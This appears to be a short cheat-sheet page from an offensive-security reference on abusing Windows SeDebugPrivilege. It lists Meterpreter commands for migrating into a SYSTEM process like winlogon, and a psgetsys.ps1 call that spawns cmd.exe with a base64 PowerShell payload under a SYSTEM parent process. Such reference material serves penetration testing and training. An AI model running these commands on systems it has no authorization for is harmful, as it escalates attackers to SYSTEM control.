 ```yaml
---
title: "SeDebugPrivilege"
date: 2024-8-2
tags: ["SeDebugPrivilege", "Windows", "potato", "privesc", "fullpower"]
---
```


### Tools

{{< tab set1 tab1 active >}}Metasploit{{< /tab >}}
{{< tab set1 tab2 >}}psgetsys.ps1{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Inside meterpreter
ps winlogon
```

```console
# Explorer.exe is a good candidate
migrate <PID>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# Import module
. .\psgetsys.ps1
```

```console
ImpersonateFromParentPid -ppid <PID> -command "c:\windows\system32\cmd.exe" -cmdargs "/c <POWERSHELL_3_BASE64>"
```

</div>

<small>*Ref: [psgetsys](https://github.com/decoder-it/psgetsystem)*</small>

{{< /tabcontent >}}

<br>